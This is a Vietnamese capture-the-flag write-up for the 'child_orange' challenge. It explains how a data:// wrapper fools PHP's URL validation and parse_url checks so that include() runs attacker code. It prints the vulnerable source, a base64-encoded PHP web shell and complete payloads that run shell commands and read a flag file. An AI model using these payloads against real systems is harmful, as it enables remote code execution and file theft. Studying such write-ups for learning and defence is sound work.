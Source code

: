 # [CTF] child_orange
## Solution
Source code:
```
<?php
  ini_set('open_basedir', '.');
  if(isset($_GET['url'])){
    $url = $_GET['url']; //.".txt";       I think i should make this challenge eaiser :)))
    if(!filter_var($url, FILTER_VALIDATE_URL)) exit("invalid url");
    if(!preg_match("/http:\/\/nhienit.kma:2010\//",$url)) exit("invalid server");
    if(preg_match("/@|#|\(|\)|\\$|`|'|\"|_|{|}|\?/",$url)) exit("you are not orange");
    if((parse_url($url)['host'] !== "nhienit.kma") || (parse_url($url)['port'] !== 2010)) exit("invalid host or port");
    if(parse_url($url)['user'] || parse_url($url)['pass']) exit("you are not orange");
    include $url;
  }
  else {
    highlight_file(__FILE__); 
    exit();
  }
  // Hint: Google is your friend!!!! XD
?>
```
Review qua source code nào:
param ``url`` ở đây được đối xử như 1 URL thật và nó phải pass qua 1 đống ``filter_var``, ``preg_match`` , ``parse_url`` , đến đây mình dự đoán nó có thể là RFI rồi. 

Theo hint của anh Nhiên thì lọ mọ đi search google thoy. sau khi search 1 hồi thì mình tìm thấy, 1 số report cũng như bài thuyết trình của ``orange tsai`` :-=)) Trong BlackHat nói về SSRF dẫn đến exploiting ``parse_url``. Nó có 1 số thủ thuật khá hay để abusing cái parse_url như là thêm @ để làm cái parse_url nhầm lẫn giữa ``host`` và ``user`` hoặc là CSRF ( ``\r\n``),.. 

![img](./img/Screenshot%20from%202022-03-04%2022-55-29.png)

Reference:
- https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf
- https://www.youtube.com/watch?v=voTHFdL9S2k&t=222s

Đến đây mình đã đinh ninh bài này nó là SSRF rồi RFI rùi nhưng mà khoan, các thủ thuật trên đều phải trigger vào giữa cái url, cái này nó không thỏa mãn được điều kiện ``if(!preg_match("/http:\/\/nhienit.kma:2010\//",$url))``.. soo how?

Thực ra còn 1 cách khác không liên quan đến cách trên đó chính là dùng ``php wrapper``, cụ thể mình dùng ``data://`` 
Reference: https://www.php.net/manual/en/wrappers.data.php . 

Mình đã test thử với filter ``if(!filter_var($url, FILTER_VALIDATE_URL)) exit("invalid url");`` và bằng cách thần kì nào đó nó coi wrapper là 1 validate url =)).

![img](./img/Screenshot%20from%202022-03-04%2023-05-19.png)

Cho nó vào parse_url() để var_dump nó ra xem như thế nào: ``

![img](./img/Screenshot%20from%202022-03-04%2023-10-40.png)

hmm thế này là không thoả mãn đuợc ``if((parse_url($url)['host'] !== "nhienit.kma") || (parse_url($url)['port'] !== 2010)) exit("invalid host or port");``. Thử thêm text vào truớc scheme ``http`` để trigger xem sao. payload: ``url="data://sometext/http:/nhienit.kma:2010//plain,test";``

![img](./img/Screenshot%20from%202022-03-04%2023-14-26.png)

Bingo, bằng cách này ta có thể abuse host và port của cái parse_url

payload của mình sẽ là:

``url=data://nhienit.kma:2010/http://nhienit.kma:2010/plain,test;``

![img](./img/Screenshot%20from%202022-03-04%2023-18-19.png)

Đây là tiền đề để có thể thực hiện rce rồi, mình có thể ném script php lên (php wrapper sẽ execute code của mình) , cụ thể trong bài này ta phỉa encode script php theo dạng base64 vì ``php tag`` bị dính filter. script php: ``PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=`` (aka ``<?php system($_GET['cmd']);?>``)

payload: 
``?url=data://nhienit.kma:2010/http://nhienit.kma:2010/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=ls -lsa``

![img](./img/Screenshot%20from%202022-03-04%2023-26-08.png)

nice, final payload:

``?url=data://nhienit.kma:2010/http://nhienit.kma:2010/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=cat ../../../flag``

flag: KCSC{flag_for_testing}
